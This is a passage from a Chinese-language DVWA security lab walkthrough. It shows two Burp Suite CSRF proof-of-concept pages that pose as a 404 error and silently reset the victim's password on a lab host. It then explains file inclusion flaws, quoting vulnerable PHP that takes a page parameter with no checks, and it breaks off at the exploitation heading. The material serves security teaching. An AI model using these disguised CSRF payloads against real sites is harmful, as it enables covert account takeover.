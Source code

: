 ```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
	<!--<img src="http://192.168.124.131/vulnerabilities/csrf/?password_new=admin&password_conf=admin&Change=Change"  style="display:none"/>-->
	<h1>404</h1>
	<h1>您访问的页面不存在</h1>
  </body>
  <script src="http://192.168.124.131/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change"></script>
</html>
```

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body onload="getCSRF()">
	<!--<img src="http://192.168.124.131/vulnerabilities/csrf/?password_new=admin&password_conf=admin&Change=Change"  style="display:none"/>-->
	<h1>404</h1>
	<h1>您访问的页面不存在</h1>
  </body>
  <script>
	function getCSRF(){
	  var img = document.createElement('img')
	  img.src = 'http://192.168.124.131/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change'
	  img.style.display = 'none'
	  document.body.appendChild(img)
	}
  </script>
</html>
```

#### File Inclusion

File Inclusion，意思是文件包含（漏洞），是指当服务器开启allow_url_include选项时，就可以通过php的某些特性函数（include()，require()和include_once()，require_once()）利用url去动态包含文件，此时如果没有对文件来源进行严格审查，就会导致任意文件读取或者任意命令执行。文件包含漏洞分为本地文件包含漏洞与远程文件包含漏洞，远程文件包含漏洞是因为开启了php配置中的allow_url_fopen选项（选项开启之后，服务器允许包含一个远程的文件）

```php
<?php
// The page we wish to display
$file = $_GET[ 'page' ];
?>
```

可以看到，服务器端对page参数没有做任何的过滤和检查。

服务器期望用户的操作是点击下面的三个链接，服务器会包含相应的文件，并将结果返回。需要特别说明的是，服务器包含文件时，不管文件后缀是否是php，都会尝试当做php文件执行，如果文件内容确为php，则会正常执行并返回结果，如果不是，则会原封不动地打印文件内容，所以文件包含漏洞常常会导致任意文件读取与任意命令执行。

漏洞利用
